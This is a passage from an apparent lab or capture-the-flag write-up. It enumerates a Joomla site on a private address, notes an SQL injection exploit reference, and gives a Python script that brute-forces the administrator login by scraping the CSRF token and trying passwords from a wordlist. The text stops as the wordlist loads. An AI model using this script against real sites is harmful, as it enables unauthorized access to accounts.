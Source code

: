 Enumerating joomla I found a possible SQL Injection in one of its components, I tried to exploit it but it wasn't possible, so I decided to enumerate by other ways. The tool you can dowanload it [here](https://github.com/rastating/joomlavs).

```console
root@kali:~/joomlavs$ ./joomlavs.rb -u http://192.168.179.165/joomla/ -a
...
[+] Name: com_fields - v3.7.0
 |  Location: http://192.168.179.165/joomla/administrator/components/com_fields
 |  Manifest: http://192.168.179.165/joomla/administrator/components/com_fields/fields.xml
 |  Description: COM_FIELDS_XML_DESCRIPTION
 |  Author: Joomla! Project
 |  Author URL: www.joomla.org

[!] Title: Joomla Component Fields - SQLi Remote Code Execution (Metasploit)
 |  Reference: https://www.exploit-db.com/exploits/44358
```

## Exploitation
### Joomla Login Dictionary Attack

I developed a python script to brute force the login form.

```python
#!/usr/bin/env python3

import requests
import re
import sys
from colorama import init,Fore

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

def main():

    url="http://192.168.179.165/joomla/administrator/index.php"
    user='joomla'

    s=requests.session()

    def login(password):

        r=requests.get(url)
        token=re.findall("name=(.*)", r.text)
        token=token[-1][1:33]
        cookies=r.cookies.get_dict()

        data={
                'username':user,
                'passwd':password,
                'option':'com_login',
                'task':'login',
                'return':'aW5kZXgucGhw',
                token:1
                }
        
        r=requests.post(url,cookies=cookies,data=data)
        return r.text


    wordlist=open("cewl.list").read().splitlines()
```